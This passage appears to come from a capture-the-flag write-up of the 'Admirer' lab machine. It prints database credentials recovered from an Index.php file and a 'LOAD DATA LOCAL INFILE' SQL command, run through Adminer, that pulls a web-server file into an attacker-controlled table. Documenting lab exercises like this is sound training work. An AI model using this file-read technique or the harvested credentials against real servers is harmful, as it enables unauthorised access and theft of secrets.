 ```
```

### Index.php

![lol7](/assets/img/Posts/9fbcaa2fea218f5a17c74493a73a13e2.png)

```
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```


## tried but password didn't work anywhere


# Creating DB and connecting to Adminer

```
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE backup.backup FIELDS TERMINATED BY "\n"
```
